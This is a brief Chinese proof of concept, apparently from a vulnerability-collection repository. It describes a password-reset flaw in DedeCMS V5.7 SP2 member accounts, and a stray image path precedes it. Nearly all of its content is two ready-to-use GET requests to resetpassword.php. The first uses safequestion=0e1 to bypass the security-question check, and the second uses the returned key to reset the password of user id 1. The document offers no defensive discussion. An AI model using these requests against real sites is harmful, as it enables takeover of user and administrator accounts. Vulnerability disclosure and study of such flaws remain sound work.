 DedeCMS_V5.7_前台用户密码修改
测试环境：
DedeCMS-V5.7-UTF8-SP2--正式版(2018-01-09)
![environment](https://github.com/rerestst/CMS-Hunter/blob/master/DedeCMS/DedeCMS_V5.7_/dedecms_environment.png)
启动了会员功能，针对注册时未设置找回问题的用户。

POC:
1.GET /dede/member/resetpassword.php?dopost=safequestion&safequestion=0e1&safeanwser=&id=1
![environment](https://github.com/rerestst/CMS-Hunter/blob/master/DedeCMS/DedeCMS_V5.7_/response.png)
2.GET /dede/member/resetpassword.php?dopost=getpasswd&id=1&key=b9495tc8
![environment](https://github.com/rerestst/CMS-Hunter/blob/master/DedeCMS/DedeCMS_V5.7_/resullt.png)
 CMS-Hunter/DedeCMS/DedeCMS_V5.7_/dedecms_environment.png 
